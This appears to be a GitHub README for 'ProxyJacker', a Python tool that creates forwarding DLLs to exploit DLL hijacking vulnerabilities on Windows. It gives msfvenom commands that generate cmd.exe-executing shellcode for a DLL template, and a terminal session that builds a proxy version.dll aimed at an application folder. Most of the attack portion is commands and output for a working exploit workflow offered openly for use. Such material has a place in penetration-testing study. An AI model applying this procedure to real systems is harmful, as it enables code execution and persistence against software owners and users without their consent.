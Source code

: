 # ProxyJacker

### Details:

​	Tool for creating forwarding dll for exploiting dll hijacking vulnerability. 

### Requirements:

- [ ] Mingw-64 installed.
- [ ] python2. 
- [ ] PEfiles lib.

### Procedure: 

1. Create shellcode with msfvenom and replace with template file with `YOUR SHELLCODE` 

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f c -b "\x00" //FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f c -b "\x00" //FOR 32bit
   ```

2. Run script.

   ```bash
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   
   Usage: proxydllhijacker.py 'DLL File Location' 'location for real path where real dll is '[optional]  
   
   Usage: proxydllhijacker.py '/home/kali/xyz/abc.dll' 'c:/program files/blabla/abc.dll'
   
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py version.dll 'C:/Program Files (x86)/Testingapp/'
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   [*] DLL is 32bit 
   
   [*] Defination File Created with name of export.def
   
   [*] Created 32bit DLL : version_proxy.dll
   kali@kali:~/Music/hijack/proxyjacker$ 
   ```
   ####Changelogs:
   1. Init 
   2. Added Custom Path for creating Proxy 

   ##### For Upgrade Request Use telegram to connect me on telegram https://t.me/R0B077
   #### credits: Pentester Academy for teaching such great stuff 


   
